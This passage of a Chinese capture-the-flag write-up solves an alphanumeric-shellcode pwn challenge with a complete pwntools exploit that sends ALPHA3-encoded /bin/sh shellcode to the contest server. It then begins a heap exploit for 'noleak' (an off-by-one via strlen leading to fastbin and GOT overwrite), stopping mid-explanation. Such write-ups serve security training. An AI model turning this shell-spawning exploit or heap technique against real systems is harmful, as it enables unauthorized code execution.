 ![13.PNG](https://i.loli.net/2020/05/18/5hCmNwXHog4EMkU.png)

在IDA中打开，功能实现都在main函数中：

![14.png](https://i.loli.net/2020/05/18/chm8M4Da9vt1nXi.png)

注意到第31行v8(xxx,xxx)将v8当作一个函数调用，汇编代码就是将两个参数入栈，再jmp到v8这个指针所指向的地址。往上看，发现我们可以控制v8指向地址的数据，那么输入一个shellcode就能获取shell了。关键在于这个if(!isalnum)的绕过。因此，我们需要发送的shellcode只能包含字母和数字。
一开始查找工具的时候，发现github上的一个工具shellcode_encoder。但是这个工具生成的shellcode的字符范围是包含所有可打印字符的，不符合要求。第二天的时候，又找到一个工具ALPHA3
具体使用方式见该[博客](http://https://www.jianshu.com/p/8ae8c055e35c "博客")
利用python ./ALPHA3.py x64 ascii mixedcase rax —input=”shellcode.bin” >
out.bin将我们之前生成的普通x64shellcode.bin做转换，得到纯字母数字的shellcode。接下来简单的进行发送就好了。
具体exp如下：
```python
#encoding:utf-8
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
shellcode = asm(shellcraft.sh()) #构造目标主机的shellcode

fd = open('shellcode.bin','wb')
fd.write(shellcode)
pause()

sh = remote('pwn.challenge.mini.lctf.online', 10010)
sh.recvuntil('> ')
alpha_shellcode = "Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t" #将alpha3转换后的shellcode复制到这里
sh.send(alpha_shellcode)
sh.interactive()
```
### 0x13 noleak
一道堆的题。可以改写got表。程序大概就是一个根据用户指定的输入长度来获取数据，最多保存10条数据。在0x6020C0处有一个char ptr[80]，可以看作是一个指针数组char* ptr[10]。每一条数据都保存相应指针所指向的堆中。
具体功能：1.create(size,content) 依据输入的大小，获取content，中途遇到回车会停止
2.edit(index,size,content)依据输入的大小，获取content，改写索引为index的数据，当size大于原来的size时，以原来的size为准
3.delete(index) 删除索引为index的数据，并将指针指向0
这个程序对输入都有比较严格的判断，看了源码蛮久的，才发现漏洞出在edit中，具体代码如下：

![15.PNG](https://i.loli.net/2020/05/18/UfRBuFE8jKsQtzc.png)

这里数据长度的检测是通过strlen()实现的。当我们利用chunk的空间复用，在创建第一个chunk时填满整个堆的空间，再紧接着创建第二个chunk，这时候我们使用strlen返回的长度会是原来的长度+1。示意图如下：
```python
0x0000000000000000 0x0000000000000021 #chunk0 (malloc申请size=24)
0x6161616161616161 0x6161616161616161
0x6161616161616161 0x0000000000000021 #chunk1
0x0000000000000062 0x0000000000000000
```
虽然我们申请的空间大小为24，但是通过strlen获取的长度为25（包含了一个字节的chunk1的块大小）
通过这个漏洞，我们可以改写chunk1的块大小，进而进行进一步的攻击。大致思路就是先申请三块chunk,通过chunk0更改chunk1的大小，更改后的chunk_size = chunk1_size+chunk2_size
然后将chunk1和chunk2都free掉，他们会进入fastbins(大概？)接下来再申请一个和chunk_size相同大小的块,我们就可以利用这个chunk来控制在fastbins中的chunk2的fd域，使得我们之后申请的块的地址可控。fastbins中的块需要通过大小的检测，所以我们需要找到合适的地址作为目标块。鉴于我们可以修改prt[0]的指向进而通过edit(0,8,content)修改got表,所以我们在ptr[0]的上方寻找合适的块。
可以找到0x6020b0+5处数据为0x000000000000007f符合一个chunk头的格式，且表示的chunk大小为0x70
根据这个我们可以反推出之前我们需要申请的块的大小。

